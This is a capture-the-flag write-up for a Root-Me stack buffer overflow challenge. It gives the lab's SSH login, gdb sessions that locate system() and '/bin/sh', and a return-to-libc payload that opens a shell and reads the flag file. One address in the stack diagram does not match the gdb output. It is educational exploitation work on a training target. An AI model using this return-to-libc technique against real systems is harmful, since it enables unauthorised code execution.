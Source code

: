# ELF x86 - Stack buffer overflow basic 6
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-6
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch33@challenge02.root-me.org    
Username	app-systeme-ch33
Password	app-systeme-ch33
```
According to the source code (and the executable itself), the program will get an argument (_message_) from the command line, and will print it. The _message_ buffer is 20 bytes long, and there is a use of **strcpy** with no boundary check.<br><br>

So first thing first, the offset which breaks the program need to be found. After few tries:
```gdb
(gdb) run `python -c "print 'A'*32 + 'DDDD'"`
Starting program: /challenge/app-systeme/ch33/ch33 `python -c "print 'A'*32 + 'DDDD'"`
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```

So it's possible to control the _eip_ from overflowing the buffer.<br>
Now, because the NX is on (and the program includes the "stdio.h") lets try to perform return-to-libc attack.<br>
First, let's find the libc's **system** function. According to gdb:
```gdb
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e63310 <__libc_system>
```
Now, let's check if there is a "/bin/sh" string in libc (ASLR is off). According to gdb:
```gdb
(gdb) info proc map
process 6635
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /challenge/app-systeme/ch33/ch33
	 0x8049000  0x804a000     0x1000        0x0 /challenge/app-systeme/ch33/ch33
	 0x804a000  0x804b000     0x1000     0x1000 /challenge/app-systeme/ch33/ch33
	0xb7e22000 0xb7e23000     0x1000        0x0 
	0xb7e23000 0xb7fce000   0x1ab000        0x0 /lib/i386-linux-gnu/libc-2.19.so
	0xb7fce000 0xb7fd0000     0x2000   0x1aa000 /lib/i386-linux-gnu/libc-2.19.so
	0xb7fd0000 0xb7fd1000     0x1000   0x1ac000 /lib/i386-linux-gnu/libc-2.19.so
	0xb7fd1000 0xb7fd4000     0x3000        0x0 
	0xb7fdc000 0xb7fdd000     0x1000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.19.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.19.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.19.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e23000,0xb7fd1000,"/bin/sh"
0xb7f85d4c
1 pattern found.
```

So we've got control on the _eip_, the address to libc's **system** function and the address of a "/bin/sh" string.<br>
In order to exploit the program, the stack should look like the following:
```
          +-------------------+
          |                   |
          |    32 bytes for   |
          |    overflowing    |     <==== Junk
          |                   |
          +-------------------+
          |  system address   |     <==== '\x10\x33\xe6\xb7' = 0xb7e63310
          +-------------------+
          |  return address   |     <==== Junk (doesn't really matter because we are not interested in exiting cleanly)
          +-------------------+
          |    address to     |     <==== '\x4c\x5d\xf8\xb7' = 0xb7f8564c
          |    "/bin/sh"      |
          +-------------------+
```
After constructing the payload, the program gave the following output:
```sh
app-systeme-ch33@challenge02:~$ ./ch33 `python -c "print 'A'*32 + '\x10\x33\xe6\xb7' + 'DDDD' + '\x4c\x5d\xf8\xb7'"`
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA3��DDDDL]��
$ id
uid=1133(app-systeme-ch33) gid=1133(app-systeme-ch33) euid=1233(app-systeme-ch33-cracked) groups=1233(app-systeme-ch33-cracked),100(users),1133(app-systeme-ch33)
$ cat .passwd
<censored>
$ exit
Segmentation fault
```

Note: for exiting without segmentation fault, it's necessary to replace the 'DDDD' with a valid address (e.g address to libc's exit function).
